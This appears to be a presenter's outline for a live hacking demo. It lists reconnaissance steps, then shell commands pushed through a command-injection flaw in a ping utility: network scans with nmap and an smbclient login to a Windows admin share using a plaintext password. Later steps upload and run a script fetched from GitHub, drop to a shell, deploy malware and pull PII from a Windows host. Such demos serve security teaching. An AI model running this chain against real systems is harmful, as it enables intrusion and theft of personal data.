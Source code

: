 Command Injection Demo:

Academic:
    Dig through DNS\
    Port scan IPs\
    Interrogate IP\
	HTTP Watch/Fiddler/Postman/Wireshark\
	Headers can indicate the stack\
 \
Commands:\
    Login: wier credentials to connect.hackysock.com\
    Browse site… Exploratory work\
    Over to the ping utility\
        note the command injection flaw.\
	    whoami\
	    pwd\
	    cd ../../\
	    ls\
	    ifconfig -a | grep netmask\
	    which nmap\
	    nmap -sP 192.168.122.1/24\
	    namp -p 135 192.168.122.7\
	    smbclient -N '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 -c ls\
	
Find Upload section:\
    Upload file: Note the path description\
	Figure out where uploads go\
	Upload script\
	CHMOD script\
		chmod 775 ../../hackable/uploads/pull_scripts.sh\
	Execute script\
		../../hackable/uploads/pull_scripts.sh\
	Show all the scripts that were pulled down from GitHub\
\
* It should be apparent at this point that I own the box so….*\
\
Drop to shell to show rest of demo and malware deployment.\
	Execute pii script\
	Show pii data pulled from windows machine\
	\
    
	
